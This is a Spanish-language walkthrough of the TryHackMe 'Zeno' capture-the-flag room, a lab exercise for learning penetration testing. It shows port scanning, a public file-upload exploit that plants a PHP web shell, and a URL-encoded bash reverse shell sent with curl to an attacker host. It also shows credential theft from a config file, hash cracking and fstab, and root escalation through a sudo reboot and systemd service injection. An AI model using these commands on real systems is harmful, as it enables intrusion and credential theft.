







Para lograr obtener el usuario root en esta maquina, tendremos que hacer uso de un exploit que nos permite subir un archivo `.php` malicioso que nos permita ejecutar comandos en la maquina victima para luego escalar privilegios inyectando un codigo malicioso en fichero que hace uso del binario `reboot`.


- Link [Zeno](https://tryhackme.com/room/zeno)

- Created by  [Biniru](https://tryhackme.com/p/Biniru)

# Walkthrough
--- 

## Enumeración

Iniciamos como en todas las maquinas realizando un nmap enumerando solo los puertos abiertos, ya que si lanzamos la enumeración de versiones y servicios esto tomara mucho tiempo.

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.196.185 -oG allportsScan
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
12340/tcp open  unknown syn-ack

```

Teniendo los puertos abiertos `22` y `12340` procederemos a enumerar las versiones y servicios que se ejecuten en este. 

```php
❯ nmap -p22,12340 -sC -sV -Pn -n -vvv 10.10.196.185 -on servicesScan
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
```

Enumerando el puerto `12340` podemos ver un sitio web.  



Ahora enumeramos los directorios del sitio web con la herramienta `ffuf`.

```php
❯ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 15 -u http://10.10.196.185:12340/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.196.185:12340/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 15
________________________________________________

rms                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 196ms]

```

El directorio del sitio web que encontramos es `rms`, visiatamos el sitio web [http://10.10.196.185:12340/rms/]() 



Luego seguimos enumerando directorios pero no encontramos nada interesante, también intentamos algunos ataques creándonos una cuenta. 

Buscamos por el nombre que se tenia en el titulo y encontramos algo interesante, por lo que es importante buscar por sus nombres de la web y títulos para ver si encontramos algo que nos pueda ayudar a explotar. 



## Explotación 

En este caso encontramos un exploit que es [Pathfinder Hotel exploit ](https://www.exploit-db.com/exploits/47520) que nos permite subir un archivo. 

```php
❯ python3 exploitHotelManagementSystemRCE.py http://10.10.196.185:12340/rms

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.196.185:12340/rms/images/reverse-shell.php

```

Por lo que subiremos un archivo php que nos permita ejecutar comandos, una web donde se tiene web shell de las que puedes revisar es la siguiente: [web-shells](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)


Una vez que ya se subió el archivo malicioso podemos ejecutar comandos. La manera que suelo hacerlo es haciendo uso de `curl` pero con la revershell en [urlencode](https://www.urlencoder.org/) 

```php
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Teniendo nuestra revershell en urlencode, realizaremos la peticion con nuestra revershell
```php
curl -s http://10.10.196.185:12340/rms/images/reverse-shell.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```

Antes de realizar la petición debemos ponernos a la escucha con `ncat` para recibir la shell de la maquina victima.

## Escalada de privilegios

```php
❯ ncat -lvnp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.196.185:40880.
bash: no job control in this shell
bash-4.2$ whoami+
whoami
bash-4.2$ 
```

Enumerando encontraremos un archivo de configuracion con credenciales que haremos uso.

```php
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
bash-4.2$ 
```

Ingresando a la base de datos encontraremos credenciales que podemos hacer uso o al menos intentar algo.

```php
bash-4.2$ mysql -h localhost -u root -p dbrms
Enter password:  
```



```
Stephen :Omolewa:omolewastephen@gmail.com: 81dc9bdb52d04dc20036dbd8313ed055
John : Smith: jsmith@sample.com : 1254737c076cf867dc53d60a0364f38e
edward: zeno : edward@zeno.com : 6f72ea079fd65aff33a67a3f3618b89c
seven : seven : seven@gmail.com : 651f1b54904a1fdc5201ee24605418b7 
```

Una herramienta util es [Crackstation](https://crackstation.net/) y nos ayudara a crackear las contraseñas que estan hasheadas.

```php
Stephen :Omolewa:omolewastephen@gmail.com -> 1234
John : Smith: jsmith@sample.com -> jsmith123
```

Teniendo las credenciales en texto plano no se puede hacer mucho ya que ninguna es valida. Enumerando con [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) encontraremos una credencial valida que haremos uso para ingresar como `edward`



```php
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft    0 0
```

### Usuario: Edward



Ahora como el usuario `edward` enumeraremos el sistema y permisos

```php
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot

```

Ejecutando el comando `sudo -l` podemos ver que tenemos permiso de reiniciar la maquina por lo que el siguiente post: [sudo-reboot-privilege-escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-reboot-privilege-escalation/) nos ayudara a inyectar un comando en un archivo que es `/etc/systemd/systm/example.service` para cambiar los permisos de la `/bin/bash`.
### Usuario: root



¡VAMOS!

Happy hacking :)

